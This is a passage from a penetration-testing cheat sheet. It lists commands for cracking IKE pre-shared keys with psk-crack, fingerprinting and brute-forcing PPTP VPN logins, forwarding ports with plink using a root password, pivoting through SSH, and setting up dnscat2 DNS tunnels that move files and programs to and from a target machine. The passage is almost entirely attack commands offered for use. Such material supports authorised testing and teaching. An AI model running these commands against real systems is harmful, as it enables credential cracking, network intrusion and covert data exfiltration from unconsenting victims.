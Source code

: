         ```bash
        psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key
        ```

-   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
        
        `nmap –Pn -sV -p 1723 TARGET(S)  `
        PPTP Dictionary Attack  
        
        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

-   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:  
    
         `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

-   SSH Pivoting

    -   SSH pivoting from one network to another:  
    
        `ssh -D <local host>:1010 -p 22 user@<remote host>`

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    -   Attacking Machine Installation:  
    
        ```bash
        apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        cd dnscat2/server  
        bundle install
        ```

    -   Run dnscat2:  
    
        ```
        ruby ./dnscat2.rb  
        dnscat2> New session established: 1422  
        dnscat2> session -i 1422
        ```

    -   Target Machine:  
        [*https://downloads.skullsecurity.org/dnscat2/*](https://downloads.skullsecurity.org/dnscat2/)
